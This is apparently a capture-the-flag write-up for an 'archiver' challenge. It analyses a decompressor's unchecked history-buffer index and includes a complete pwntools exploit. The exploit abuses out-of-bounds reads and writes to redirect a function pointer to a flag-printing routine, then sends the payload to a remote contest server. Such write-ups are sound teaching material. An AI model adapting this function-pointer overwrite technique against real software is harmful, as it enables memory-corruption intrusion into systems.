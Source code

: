 ## archiver

We are provided with a 64-bit Linux ELF binary and a Python wrapper script. The wrapper reads the input from stdin, writes it to a file, then calls the binary with the file's path. It explicitly closes stdin and redirects stdout to a pipe when calling the binary, which would prevent a trivial shell such as the one gadget addresses.

From the name of the challenge, the binary probably implements some sort of compression algorithm. We were not disappointed, and based on previous experience expected there to be a bug involving decompression and a history buffer.

The core decompression function is at 0x16D0. It reads a 64-bit magic value and 64-bit decompressed size. Then it reads 1 byte, the top 2 bits indicate the block type (e.g. literal, copy to history, copy from history, zeros) and the bottom 6 bits are a type-specific value.

 - Literal: copy N 64-bit blocks from input to output
 - Copy to history: read 1 byte B from input, copy a 64-bit block from ```output buffer - 8 * B``` to ```history buffer + 8 * N```
 - Copy from histoiry: copy a 64-bit block from ```history buffer + 8 * N``` to output buffer
 - Zeros: write N 64-bit blocks of zero to output

While analyzing these operations, neither copy to history nor copy from history validate that the index into the history buffer. This index can be as large as 63 (0x3f), yet the history buffer is only 48 blocks. This allows us to overwrite past the history buffer in the Compress class:

```
00000000 Compress        struc ; (sizeof=0x1B8, align=0x8, mappedto_12)
00000000 vtbl            dq ?                    ; offset
00000008 file_manager    dq ?                    ; offset
00000010 history_buf     dq 48 dup(?)
00000190 outbuf          dq ?                    ; offset
00000198 outbuf_size     dq ?
000001A0 outidx          dq ?
000001A8 uncomp_size     dq ?                   
000001B0 error_func      dq ?                    ; offset
000001B8 Compress        ends
```

It is obvious from the placement of the function pointer after the history buffer, and the fact that it exists at all, that we need to overwrite it using the out-of-bounds write vulnerability. However, due to ASLR and PIE we do not know what to write there.

Eventually we noticed that the binary contains a convenient function to print the flag at 0x1320, and also conveniently the error function pointer points to 0x1160 which is before the print flag function. We can turn the decompressor into a simple adder by moving the function pointer into uncomp\_size using the OOB read and write, add N*8 to uncomp\_size by decompressing N blocks, and then move the value from uncomp\_size to the function pointer using the OOB read and write.

```
#!/usr/bin/env python
from pwn import *

data = ''.join([
    p64(0x393130322394D3C0),
    p64(0x1000000),

    # copy error func to uncomp output size
    p8(0xC0 | 52),
    p8(0x40 | 51), p8(1),

    # increment uncomp output size -> cat flag
    p8(0x80 | 56),

    # copy cat flag to error func
    p8(0xC0 | 51),
    p8(0x40 | 52), p8(1),

    # trigger error func
    p8(0x40), p8(0xff),
])

r = remote('110.10.147.111', 4141)
r.send(p32(len(data)) + data)
r.interactive()
```
